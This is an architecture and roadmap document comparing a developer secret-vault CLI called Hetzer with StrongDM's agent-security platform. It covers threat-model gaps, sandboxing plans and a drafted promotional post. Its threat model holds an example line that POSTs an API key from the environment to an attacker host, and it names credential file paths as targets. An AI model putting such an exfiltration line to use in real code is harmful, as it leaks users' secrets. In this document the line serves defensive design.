

# Hetzer vs. StrongDM: Comparative Analysis & Agentic Security Roadmap

> **Document Status**: Architectural Evaluation & Engineering Roadmap  
> **Date**: September 2026  
> **Context**: Evaluating Hetzer (`@agunggnn/hetzer` v0.4.x) against enterprise-grade non-human identity (NHI) and AI agent security platforms following Delinea's acquisition of StrongDM.

---

## 1. Executive Summary & Context

In March 2026, **Delinea completed its acquisition of StrongDM** under the banner *"Redefining identity security for the agentic AI era"*. As autonomous AI agents (Claude, Codex, Gemini, custom workforces) gain execution authority in software engineering and IT operations, traditional static secret management has broken down. 

Both **Hetzer** and **StrongDM** tackle this challenge: **preventing autonomous AI agents from compromising infrastructure or leaking credentials.**

However, they tackle the problem from radically different vantage points:
* **StrongDM / Delinea** approaches this as an **Enterprise Infrastructure & PAM Gatekeeper** using container isolation, kernel-level eBPF interception, and network-level MITM proxying.
* **Hetzer** approaches this as a **Developer-Centric Secret Shield** using local AES-256-GCM vaulting (`Grimoire`), out-of-band scoped injection (`hetzer exec`), sub-millisecond streaming redaction, and Git pre-commit guards with zero third-party runtime dependencies.

This document analyzes the architectural divergence, evaluates the security strength levels, details the residual risk gaps, and provides an actionable engineering roadmap to elevate Hetzer toward enterprise-grade isolation without sacrificing its sub-millisecond, zero-dependency developer experience.

---

## 2. Architectural Comparison Matrix

| Dimension | Hetzer (`@agunggnn/hetzer`) | StrongDM (`strongdm/leash` + PAM) |
| :--- | :--- | :--- |
| **Primary Scope** | Developer workstation, local agent workflows, and command planes (e.g. Shadow) | Enterprise infrastructure, multi-cloud VPCs, production databases, and servers |
| **Enforcement Layer** | **Process-level (User-space)**: Node.js process orchestration, child process environment scrubbing | **Kernel & Network-level**: Linux eBPF syscall interception, container sandboxing, macOS Endpoint Security |
| **Credential Injection** | **Scoped Process Environment**: Resolved at spawn into child `process.env`; unapproved parent variables stripped via `--strict` | **Wire-Level Ephemeral Proxy**: Credentials injected on the fly into HTTP headers by a local intercepting proxy; child never sees real keys |
| **Memory Exposure** | **In-memory**: Plaintext secret exists in child process RAM during execution | **Zero in-memory**: Child process only holds dummy/ephemeral tokens or communicates via unix socket |
| **Network Egress** | **Terminal stream inspection only**: Monitors `stdout`/`stderr`. Unmonitored direct socket traffic is not blocked | **Active kernel packet filtering**: Blocks unauthorized outbound IPs/domains at the transport layer |
| **Filesystem Access** | Standard OS user permissions (unrestricted within caller's read/write rights) | Container filesystem isolation or OS Seatbelt (restricted chroot/namespaces) |
| **Anti-Prompt Leakage** | **Dedicated & Sub-ms**: Dynamic sliding buffer (`Math.max(128, longestSecret * 2)`), 512B window scan (~0.01ms latency), MCP response sniffer | Focuses on infrastructure-level controls rather than real-time LLM chat transcript sanitization |
| **Tripwires & Deception**| Built-in Canary Honey-Tokens (`canary-*`, `exitCode 43`) | Honeypot database routes / audited dummy endpoints |
| **Policy Engine** | CLI allowlists (`--allow <id>`) and module manifests | Formally verified policy language (**AWS Cedar**) with RBAC/ABAC rules |
| **Runtime Dependencies**| **Zero npm dependencies**; pure Node.js built-ins (`node:crypto`, `node:sqlite`, etc.) | Docker/Podman runtime, eBPF kernel support, root/admin daemon privileges |

---

## 3. Threat Model & Security Level Analysis

```mermaid
flowchart TD
    subgraph StrongDM["StrongDM / Leash (Kernel & Network Sandbox)"]
        A1[Agent Process] -->|Syscall: execve/connect| B1[eBPF Kernel Filter]
        B1 -->|Allowed Socket| C1[Local HTTP MITM Proxy]
        C1 -->|Injects Real Auth Header on Wire| D1[Upstream Cloud API]
        A1 -. Blocked .->|Attempted Host File Read| E1[Container Boundary / Namespaces]
    end

    subgraph Hetzer["Hetzer (Process & Stream Guardrail)"]
        A2[User / Agent CLI] -->|hetzer exec --allow id --strict| B2[Grimoire AES-256 Vault]
        B2 -->|Inject into Env| C2[Child Process Memory]
        C2 -->|stdout / stderr| D2[Streaming Redactor ~0.01ms]
        D2 -->|Sanitized Output| E2[Terminal / Prompt Context]
    end
```

### Level Distinction:
1. **StrongDM = Level 4/5 (Hostile Code Containment)**:
   Assumes the code executed by the agent could be **active malware or an adversary with arbitrary execution capabilities**. Even if an agent runs a hostile compiled C binary or attempts a raw TCP connection to a command-and-control (C2) server, the Linux kernel (via eBPF) drops the packets.
2. **Hetzer = Level 2/3 (Collaborative Defense-in-Depth & Accidental Leak Prevention)**:
   Assumes the agent is **cooperative but vulnerable to prompt injection, hallucination, or accidental exposure** (e.g. printing env vars, logging response bodies, committing `.env` to Git, reflecting tokens in tool outputs). Hetzer completely neutralizes these prompt-injection and output-leakage vectors.

### The 3 Core Residual Risk Gaps in Hetzer:
* **Gap A: In-Memory Secret Visibility**: Because credentials are passed as environment variables to the child process, any script executing inside `hetzer exec` can read `process.env[KEY]` and inspect its own memory.
* **Gap B: Out-of-Band Network Exfiltration**: If malicious code executes `fetch("https://attacker.com/leak", {method: "POST", body: process.env.API_KEY})` without writing anything to `stdout`/`stderr`, Hetzer's stream redactor will not intercept the exfiltration.
* **Gap C: Host Filesystem Snooping**: `hetzer exec` child processes inherit the developer's user permissions. An agent can read files outside the repository (e.g. `~/.ssh`, `~/.aws/credentials`, `~/.hetzer/grimoire.key`) unless restricted by the OS.

---

## 4. Engineering Improvement Roadmap for Hetzer

Hetzer does **not** need to become a heavyweight enterprise daemon that requires Docker, root access, or kernel drivers. Instead, Hetzer can close **85% of the security gap** by leveraging **unprivileged user-space security primitives**.



### Phase 1: Local Loopback Auth Proxy (Wire-Level Secret Injection)
* **Goal**: Eliminate plaintext credentials from child process memory entirely.
* **Mechanism**:
  1. For supported HTTP/API credentials (OpenAI, Anthropic, GitHub, AWS, NPM), `hetzer exec` spins up an ephemeral loopback HTTP proxy on `127.0.0.1:<random-port>` using standard `node:http`.
  2. The child process environment receives a virtual token identifier and redirected endpoints (e.g. `OPENAI_BASE_URL=http://127.0.0.1:<port>/v1`).
  3. When the child makes an HTTP request, Hetzer's proxy validates the virtual token, retrieves the true secret from the Grimoire vault in parent memory, swaps the header on the outbound TLS connection, and strips any reflected secrets on the return response.
* **Result**: Even if the child script dumps its entire memory or environment, the real secret is nowhere to be found.

### Phase 2: Silent Egress Interception & Domain Allowlisting
* **Goal**: Prevent out-of-band HTTP exfiltration to unauthorized remote servers.
* **Mechanism**:
  1. `hetzer exec --strict` automatically injects standard proxy environment variables: `HTTP_PROXY`, `HTTPS_PROXY`, and `ALL_PROXY` pointing to Hetzer's local forward proxy.
  2. Support an explicit domain allowlist via CLI or manifest:
     `hetzer exec --allow-domain api.github.com,registry.npmjs.org -- npm publish`
  3. Any outbound request to non-allowlisted domains is terminated with HTTP 403 / connection reset and logged to `hetzer-incidents.log`.

### Phase 3: Unprivileged OS-Level Sandboxing (Zero-Docker / Zero-Root)
* **Goal**: Prevent an agent from reading sensitive files outside the workspace (e.g. `~/.ssh`, `~/.hetzer/grimoire.key`).
* **Mechanism**:
  * **Linux**: Integrate unprivileged **Landlock LSM** (available in Linux kernel 5.13+ without root/capabilities). Restricts filesystem access to the current project directory and system libraries only.
  * **Windows**: Wrap child execution inside Win32 **Restricted Tokens** or **Job Objects** (`SetInformationJobObject`) to drop privileges and limit accessible filesystem objects.
  * **macOS**: Utilize `sandbox-exec` with a temporary, tightly scoped Seatbelt profile.

### Phase 4: Declarative Capability Manifests
* **Goal**: Move from simple CLI flags to structured, version-controlled permission contracts.
* **Mechanism**: Support a `hetzer.policy.json` (or section in `package.json`):
  ```json
  {
    "task": "build-and-test",
    "allowSecrets": ["npm-token", "test-db-url"],
    "network": {
      "allowedDomains": ["registry.npmjs.org", "localhost"],
      "blockDirectSockets": true
    },
    "filesystem": {
      "readOnly": ["."],
      "writeOnly": ["./dist", "./coverage"],
      "denied": ["~/.ssh", "~/.aws", "~/.hetzer"]
    }
  }
  ```

---

## 5. LinkedIn / Community Narrative Blueprint

When presenting this comparison and improvement milestone publicly:

### Hook & Framing:
> *"Everyone is talking about Autonomous AI Agents writing code, but few talk about the massive security landmine: Non-Human Identities (NHIs) and credential leaks.*
>
> *When Delinea acquired StrongDM for enterprise AI identity security, my friend asked me: **'How does your open-source tool Hetzer compare against a multi-million-dollar enterprise PAM platform?'**
>
> *That conversation challenged our architecture and led to our biggest milestone yet."*

### Key Comparison Points for the Post:
1. **The Heavyweight vs. The Lightweight**:
   * StrongDM uses heavy containers, kernel eBPF hooks, and enterprise cloud proxies. Great for enterprise SOC2 compliance, but high friction for daily local agent development.
   * Hetzer was built for sub-millisecond local execution, zero npm dependencies, and stream-level prompt sanitization.
2. **The "Memory Gap" Challenge**:
   * Acknowledge the core vulnerability: traditional process runners leave secrets in `process.env`. If an agent has arbitrary code execution, reading memory is trivial.
3. **The Unprivileged Innovation**:
   * Explain how Hetzer closed this gap without adding Docker or requiring root permissions:
     * Local loopback virtual token swapping (wire-level injection).
     * Unprivileged OS sandboxing (Landlock on Linux, Restricted Job Objects on Windows).
4. **Credit & Community Spirit**:
   * Thank peers and friends who pressure-tested the architecture and asked the tough questions that drove innovation.

---

## 6. Verification & Contributor Rules
Any implementation following this roadmap must maintain Hetzer's core commitments (defined in [`AGENTS.md`](./AGENTS.md)):
* Maintain zero runtime third-party npm dependencies.
* All new security features must be backed by reproducible empirical tests in `npm run verify` and recorded in `docs/verification-evidence.json`.
* Preserve sub-millisecond execution and cross-platform equivalence (Windows, macOS, Linux).
